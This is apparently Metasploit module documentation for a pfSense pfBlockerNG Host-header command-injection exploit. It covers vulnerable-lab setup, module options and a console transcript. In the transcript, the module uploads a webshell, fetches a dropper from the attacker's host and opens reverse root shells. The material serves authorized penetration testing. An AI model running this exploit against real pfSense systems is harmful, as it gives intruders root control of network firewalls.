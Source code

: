 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell metacharacters in the HTTP Host header.
Versions =< 2.1.4_26 are vulnerable, note that version 3.X is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`


Install the .iso file in your favorite virtualizing software. Once installed pfSense will start and you can accesss the
web GUI by navigating to `https://<pfSense-IP-address>/`

Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerble package with:
`pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

**WEBSHELL_NAME**

This is the name of the webshell that will get uploaded to the pfsense target. If left unset the file name will get
randomly generated.

## Verification Steps

1. Start msfconsole
1. Do: `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST`, `LHOST` options
1. Run the module
1. Receive a cmd shell as the root user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: wxhwPWwgljoabQ.php
[+] The target is vulnerable.
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.16.199.1:8080/0zFPOkdeOFLg
[*] Client 172.16.199.130 (curl/7.76.1) requested /0zFPOkdeOFLg
[*] Sending payload to 172.16.199.130 (curl/7.76.1)
[*] Command shell session 3 opened (172.16.199.1:4444 -> 172.16.199.130:12257) at 2022-10-12 16:47:25 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
^C
Abort session 4? [y/N]  y

[*] 172.16.199.131 - Command shell session 4 closed.  Reason: User exit
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set target 0
target => 0
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: wuaKxVbdzGBvaxwk.php
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Z4vTB5j96FhnEFHo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Z4vTB5j96FhnEFHo\n"
[*] Matching...
[*] A is input...
[*] Command shell session 5 opened (172.16.199.1:4444 -> 172.16.199.130:57020) at 2022-10-12 16:49:01 -0400

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```

